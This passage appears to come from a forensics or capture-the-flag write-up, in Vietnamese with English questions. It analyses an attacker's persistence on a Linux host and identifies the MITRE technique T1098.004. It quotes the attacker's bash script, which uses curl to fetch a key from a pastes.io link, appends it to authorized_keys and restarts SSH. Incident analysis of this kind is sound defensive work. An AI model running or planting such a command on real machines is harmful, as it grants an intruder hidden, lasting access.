- Truy cập đường dẫn pastes.io, ta thấy rằng có 1 file bash ở đây, chủ yếu lấy dữ liệu file hffgra4unv để lưu vô authorized_keys
```
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```
> hffgra4unv

#### Can you confirmed the file modified by the attacker to gain persistence?
- Đã trình bày ở câu trên 
> /home/ubuntu/.ssh/authorized_keys
#### Can you confirm the MITRE technique ID of this type of persistence mechanism?
- Dựa vào trang [này](https://attack.mitre.org/techniques/T1098/004/) ta xác định được ID là T1098.004